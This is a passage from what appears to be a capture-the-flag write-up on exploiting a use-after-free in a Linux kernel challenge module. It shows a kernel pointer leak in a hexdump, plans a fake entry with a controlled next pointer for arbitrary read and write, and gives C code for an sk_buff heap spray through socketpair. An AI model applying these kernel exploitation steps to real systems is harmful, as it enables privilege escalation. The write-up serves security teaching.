 The result,
```
0x00| 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 
0x10| 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 
0x20| 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 
0x30| 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 
0x40| 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 
0x50| 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 
0x60| 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 
0x70| 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 
0x80| 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 
0x90| 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 
0xa0| 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 
0xb0| 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 
0xc0| 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 
0xd0| 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 
0xe0| 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 
0xf0| 41 41 41 41 41 41 41 41 00 68 b8 81 2d 8e ff ff 
```

There's a kernel pointer at the end, so clearly we've accessed freed chunk data!

The `sofirium_entry` structure is 0x108 bytes(0x100 bytes of data and an 8 byte pointer) so that goes into kmalloc-512. To exploit this we want to allocate some sort of kernel structure on top of the `sofirium_entry`, faking the entry. Given this allows us to control the `next` pointer, that can be leveraged into an arbitrary read and write. But what can we choose? 

It's important to remember that the `sofirium_head` struct must remain unchanged, so that cannot be allocated. Luckily that structure is in a different cache so as long as we keep out of it. When looking for kernel structures to attack I usually refer to [this ptr-yudai article](https://ptr-yudai.hatenablog.com/entry/2020/03/16/165628) which is extremely useful. There aren't many good things in kmalloc-512 though, besides the `msg_msg` structure which is elastic. I ended up using the `sk_buff` structure which is quite nice for generic kernel UAFs.

## Spraying the sk_buff data structure

When storing unread socket data, the linux kernel uses a socket buffer structure allocated on the slab which is essentially just a block of memory used as a buffer filled with *user-controlled* data. There are 320 bytes appended to the end of the data for various control things, but that isn't too important. To get into kmalloc-512, a maximum of 192 bytes in the socket message is needed. This will create a chunk on the slab of form `192 bytes of controlled data | 320 bytes of uncontrolled data`. That 192 bytes is more than enough to overwrite the next pointer of an NFT.

To generate these messages, the `socketpair` syscall will suffice. This is similar to pipes, creating a pair of socket file descriptors for which anything written to one end can be read from the other and vice versa. Unread messages that have been written will be stored in `sk_buff` structures, providing the perfect heap spray.

```c
#define NUM_SOCKETS 4
#define NUM_SKBUFFS 128
#define SKB_SHARED_SIZE 320

#define SKBUFF_SIZE 512 - SKB_SHARED_SIZE
int ss[NUM_SOCKETS][2];
int spray_skbuff(void *buf, size_t size) {
  for (int i = 0; i < NUM_SOCKETS; i++) {
    for (int j = 0; j < NUM_SKBUFFS; j++) {
      if (write(ss[i][0], buf, size) < 0) {
        perror("write");
        return -1;
      }
    }
  }
  return 0;
}
```
